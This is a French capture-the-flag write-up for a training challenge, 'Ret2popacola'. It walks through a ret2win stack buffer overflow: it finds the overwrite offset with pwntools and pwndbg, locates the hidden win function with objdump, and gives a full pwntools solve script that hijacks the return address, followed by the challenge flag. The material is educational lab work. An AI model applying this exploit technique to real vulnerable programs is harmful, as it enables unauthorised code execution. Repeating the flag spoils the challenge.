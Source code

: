 # Ret2popacola Write-Up.

L'objectif de ce challenge est la découverte des ret2win en pwn. C'est une méthode d'exploitation assez classique qui permet de bien comprendre le flow d'exécution d'un binaire, mais surtout comment on peut le contrôler :D

## Analyse du challenge
Commençons d'abord par analyser les sources du binaire et son comportement. 

Le programme est un outil de consultation du nombre de ventes de PopaCola de la journée.
Quand on l'exécute, on nous demande un login. Si le login n'est pas le bon, le programme nous refuse l'accès et se termine.
En lisant le code, on voit que le login demandé est "popacola".

En rentrant ce login, le programme nous affiche le nombre de ventes (simulés avec deux random). Rien de bien fou jusque-là.

Cependant, on remarque l'existence d'une fonction "SuperSecretAdminAccess", qui vient ouvrir le flag. Intéressant...
![](assets/SuperSecretAdminAccess.png)

Enfin, on voit que le login est stocké dans le buffer `name` qui a une capacité de 64 caractères. La fonction `fgets` elle vient récupérer l'entrée utilisateur en la considérant d'une taille de 0x100 (256). Que se passe-t-il dans le buffer s'il contient plus de 64 caractères ?

## Un buffer overflow, kesako ?  
En rentrant plus de 64 caractères, nous avons fait un buffer overflow. Nous avons dépassé l'espace mémoire réservé pour le nom de l'utilisateur. De la donnée va être réécrite sur la pile (stack), qui est la partie qui garde en mémoire de nombreuses informations utiles pour notre programme. Dans ces informations, nous pouvons retrouver l'adresse de retour de la fonction après la fin de son exécution ou les adresses de la stack sauvegardée de la fonction main.

C'est là que la fonction SuperSecretAdminAccess nous intéresse. Cette fonction n'est appelée nulle part, comment faire pour y accéder et obtenir le flag ?

Le but du jeu va être de réécrire la valeur du registre `rip` qui est dans la stack et récupérée lors du `ret`. Ainsi, à la fin de l'exécution de la fonction, sellTracker ne retournera pas sur main mais sur la fonction SuperSecretAdminAccess, ce qui nous donne le flag.

## Solution
Un checksec sur le binaire permet de voir plusieurs éléments :
- NX activé, ce qui nous empêche de faire un shellcode
- PIE est désactivé, les fonctions du binaire ont la même adresse à chaque exécution
- Pas de canary, on peut donc blinder la stack sans soucis

Étapes à suivre :
1. Trouver l'offset entre le début du buffer name et le rip stocké.
2. Recuperer l'adresse de la fonction SuperSecretAdminAccess, qui sera toujours la même (PIE désactivée)
3. Écrire notre payload
4. Envoyer notre payload et récupérer le flag !

### 1. Trouver l'offset entre le début du buffer name et le rip stocké
Pour trouver l'offset de réécriture de `rip`, il est courant d'utiliser un cyclic avec pwntools, qui génère une [suite de Bruijn](https://fr.wikipedia.org/wiki/Suite_de_de_Bruijn).

Avec pwntools d'installé et depuis un terminal interactif Python :
```python
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

On peut ensuite lancer le binaire en local avec `gdb` afin d'envoyer la séquence générée au préalable.
Ici j'utilise [pwndbg](https://github.com/pwndbg/pwndbg), une surcouche de `gdb` qui permet d'avoir une interface un peu plus sympa.
![](assets/pwndbg_run.png)

Le programme crash. On obtient un SIGSEGV :D
![](assets/sigsegv.png)

1. Le SIGSEGV indique le fameux Segmentation Fault. Ici, le programme essaie de retourner sur une adresse invalide comme `rip` a été réécrit.
2. Pwndbg reconnaît la chaîne de caractères 'waaaxaaayaaa' pour le registre `rsp`. On reconnaît les caractères qui font partie du cyclisme que l'on a rentré. C'est ce qu'on utilise dans `cyclic_find` pour trouver l'offset.

Dans le même terminal Python, on exécute donc :
```python
>>> cyclic_find('waaaxaaayaaa')
88
```
On a trouvé notre offset ! Il est de 88 caractères.

### 2. Récupérer l'adresse de la fonction SuperSecretAdminAccess
Comme on l'a vu dans le checksec, le PIE sur le binaire est désactivé. Les adresses des fonctions du binaire ne changeront donc pas entre deux exécutions.

Comme le binaire est `not stripped`, on peut récupérer facilement les symboles avec `objdump`.
```shell
$ objdump -t ret2popacola | grep "SuperSecretAdminAccess"
00000000004011b6 g     F .text	00000000000000b8              SuperSecretAdminAccess
```

L'adresse est **0x00000000004011b6**.

## Écrire notre payload
Ce script de solve utilise pwntools. Il se connecte en remote sur le Docker fourni :

```python
from pwn import *

def solve():
    # Connexion en remote sur notre hôte local sur le port 4444
    r = remote("localhost","4444") 

    # On met de la donnée inutile pour combler l'espace entre le début de notre buffer et la réécriture de rip 
    payload = b"A" * 88        

    # On utilise la fonction p64 afin de "packed" l'adresse, c’est-à-dire changer l'endianness de l'adresse (on le passe en little endian)
    payload += p64(0x00000000004011b6)

    # Il ne nous reste plus qu'à envoyer notre payload au bon moment, puis de passer en interactive.
    r.sendlineafter(b"Veuillez rentrer votre login pour acceder aux ventes du jour.", payload)
    r.interactive()

if __name__ == "__main__":
    solve()
```
On lance le programme et on obtient l'accès à SuperSecretAdminAccess et au flag :D
![](assets/ca_flag.png)

# Flag
Le flag est `24HIUT{L3ts_K33p_Pwn1Ng_P0paC01a}`.